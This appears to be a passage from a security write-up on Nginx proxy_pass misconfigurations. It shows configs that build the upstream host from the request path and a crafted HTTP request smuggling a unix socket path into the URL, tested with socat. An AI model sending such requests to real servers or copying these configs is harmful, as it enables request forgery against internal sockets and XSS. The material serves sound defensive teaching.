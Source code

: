 
## Proxy requests

### Controlling `proxy_pass` host
In some setups, a matching path is used as part of the hostname to proxy the request to such as the following examples.
```nginx
location /backend {
  proxy_pass http://$host; # To repeat: don't do this!
}

location ~ /static/(.\*)/(.\*) {
  proxy_pass   http://$1-example.s3.amazonaws.com/$2;
}
```

In this case, any URL under `yourdomain.com/static/js/` would be served from S3, in the corresponding `js-example` bucket. The regular expression states that `yourdomain.com/static/js/app-1555347823-min.js` would fetch the S3-object located at: `http://js-example.s3.amazonaws.com/app-1555347823-min.js`.

Since the bucket is attacker controlled (part of the URI path), this leads to XSS but also has further implications.

### Accessing HTTP speaking sockets (`.sock`)
The proxy_pass feature in Nginx supports proxying requests to local unix sockets. What might be surprising is that the URI given to proxy_pass can be prefixed with `http://` or as a UNIX-domain socket path specified after the word `unix` and enclosed in colons:
```nginx
proxy_pass   http://unix:/tmp/backend.sock:/uri/;
```

To see if this was possible, we set up a local Unix socket using `socat` and an Nginx server configured with the bug:

```shell
$ socat UNIX-LISTEN:/tmp/mysocket STDOUT
```

```nginx
location ~ /static/(.\*)/(.\*.js) {
    proxy_pass   http://$1\-example.s3.amazonaws.com/$2;
}
```

For this request:
```http
GET /static/unix:%2ftmp%2fmysocket:TEST/app-1555347823-min.js HTTP/1.1
Host: example.com
```

The socket receives this information:
```http
GET TEST\-example.s3.amazonaws.com/app-1555347823-min.js HTTP/1.0
Host: localhost
Connection: close
```
